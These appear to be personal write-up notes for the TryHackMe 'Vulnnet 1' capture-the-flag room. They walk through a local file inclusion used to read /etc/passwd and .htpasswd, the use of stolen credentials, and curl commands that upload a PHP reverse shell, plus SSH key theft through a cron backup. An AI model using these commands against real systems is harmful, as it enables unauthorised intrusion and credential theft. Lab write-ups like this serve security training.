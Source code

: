 # 38. Vulnnet 1 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**
#other/GAtactics 
curl


## Gaining Access 😉
- from source code, two javascript found which is available at /js directory
- got two links from those
- got one more link `http://vulnnet.thm/index.php?referer=`, this can be used to read /etc/passwd using curl [[#Important commands 🔥]] 1
- Since we are dealing with an Apache web server, we have to find the `.htpasswd` of the `broadcast.vulnnet.thm` web server. By default, you can view web configurations in the `/etc/apache2/sites-enabled/000-default.conf`. Run the following command to read this file:
- by reading `/etc/apache2/.htpasswd` , I got username and hashed password
- logged in to subdomain with this credeantials
- used curl command to upload phprevshell [[#Important commands 🔥]] 2
- got a revshell


## Maintaining Access 🥷
- found crontab which backing up users home. enumerated target dir and got ssh which is only readable. copied to /var/www/html/files and downloaded from browser, connected with ssh
- 


## Important commands 🔥
1. curl passwd
	```
	curl http://vulnnet.thm/index.php?referer=/etc/passwd
	```
2. upload with curl
	```php
	curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" [http://broadcast.vulnnet.thm/actions/photo_uploader.php](http://broadcast.vulnnet.thm/actions/photo_uploader.php) -u developers:<REDACTED>
	
	this
	curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:997  
	2761drmfsls
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- add in etc/hosts
- if you've found subdomains, add subdomains also `/etc/hosts`
- for lfi, check source code also
- search for exploit


--------------------------------
**By Nibras Muhammed** 🤓🖥️